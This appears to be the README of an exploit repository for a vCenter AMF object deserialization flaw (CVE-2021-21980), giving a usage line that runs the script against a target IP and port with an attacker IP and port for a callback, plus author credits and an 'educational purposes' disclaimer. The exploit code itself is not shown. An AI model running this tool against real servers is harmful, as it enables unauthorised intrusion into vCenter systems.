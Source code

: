 # LongTail-AMF
Vcenter AMF object deserialization exploit 


## Usage  
```bash
python3 longtail.py targetip targetport  attackip attackerport
```

## Authors
• [D0rkerDevil](https://twitter.com/D0rkerDevil)

• [wabafet1](https://twitter.com/wabafet1)

 This is for educational purposes, Authors are not responsible for any damages.

## Reference
https://attackerkb.com/topics/5nZX40suYA/cve-2021-21980
